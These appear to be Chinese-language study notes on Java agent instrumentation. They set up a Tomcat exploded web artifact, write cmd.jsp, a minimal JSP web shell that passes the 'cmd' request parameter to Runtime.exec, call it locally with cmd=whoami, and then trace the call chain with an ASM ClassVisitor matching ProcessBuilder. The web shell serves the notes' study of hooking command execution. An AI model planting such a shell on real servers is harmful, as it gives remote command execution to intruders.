 ![image-20241224104927113](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224104927113.png)

![image-20241224105000924](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105000924.png)

新建一个展开型Web工件，把刚才创建的Web模块搞进去

![image-20241224105246663](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105246663.png)

![image-20241224105047458](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105047458.png)

Tomcat部署

![image-20241224105259845](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105259845.png)

目录里现在有了web目录

![image-20241224105402087](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105402087.png)

向cmd.jsp写入

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        System.out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

Tomcat URL记得改成`ip:port/工件/xxx.jsp`，以便直接打开

![image-20241224105436044](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105436044.png)

访问`http://localhost:8080/agent_Web_exploded/cmd.jsp?cmd=whoami`后，控制台执行打印加载流程和执行结果

![image-20241224105537704](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224105537704.png)

![image-20241224112227328](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241224112227328.png)

case2  TestClassVistor重写ClassVistor.visitMethod ，在AgentTransform匹配到ProcessBuilder时打印`name方法描述符是desc`

那为什么会打印执行命令的所有调用链呢？明明只匹配ProcessBuilder执行了一次
